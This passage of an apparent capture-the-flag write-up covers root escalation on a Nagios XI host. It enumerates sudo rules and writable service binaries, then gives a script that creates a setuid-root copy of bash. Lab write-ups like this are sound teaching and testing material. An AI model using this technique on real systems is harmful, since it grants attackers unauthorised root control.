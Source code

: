 ```
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```
The first 11 commands are from /etc/init.d for the nagios and npcd binaries. Neither of these binaries are present on Monitored:
```
nagios@monitored:~$ ls /etc/init.d/
anacron              cron               networking     shellinabox  sysstat
apache2              dbus               ntp            slapd        udev
apache-htcacheclean  exim4              open-vm-tools  snmpd        uuidd
apparmor             hwclock.sh         postgresql     snmptrapd    x11-common
auditd               keyboard-setup.sh  procps         snmptt       xinetd
bluetooth            kmod               rsync          ssh
console-setup.sh     mariadb            rsyslog        sudo
```
That suggests these sudo rules were installed by Nagios to handle different systems that may be configured differently.
```
nagios@monitored:~$ for service in "postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm"; do find /etc/systemd/ -name "$service.service"; done | while read service_file; do ls -l $(cat "$service_file" | grep Exec | cut -d= -f 2 | cut -d' ' -f 1); done | sort -u
ls: cannot access '#': No such file or directory
-rwxrwxr-- 1 nagios nagios 717648 Nov  9 10:40 /usr/local/nagios/bin/nagios
-rwxr-xr-- 1 nagios nagios 31584 Nov  9 10:42 /usr/local/nagios/bin/npcd
-rwxr-xr-x 1 root root 182238 Jul 23  2020 /usr/sbin/snmptt
-rwxr-xr-x 1 root root  30952 Apr  6  2021 /bin/kill
-rwxr-xr-x 1 root root 30952 Apr  6  2021 /bin/kill
-rwxr-xr-x 1 root   root    30952 Apr  6  2021 /usr/bin/kill
-rwxr-xr-x 1 root root 34840 Aug 15  2022 /usr/sbin/snmptrapd
-rwxr-xr-x 1 root root 39680 Sep 24  2020 /bin/true
-rwxr-xr-x 1 root root  43808 Sep 24  2020 /bin/sleep
-rwxr-xr-x 1 root   root    72704 Sep 24  2020 /usr/bin/rm
```
We can find `/usr/local/nagios/bin/nagios` are both owned by the`nagios` user!
That means we can change it to anything we want such as a scroll script
```
#!/bin/bash

cp /bin/bash /tmp/wither
chown root:root /tmp/wither
chmod 6777 /tmp/wither

```
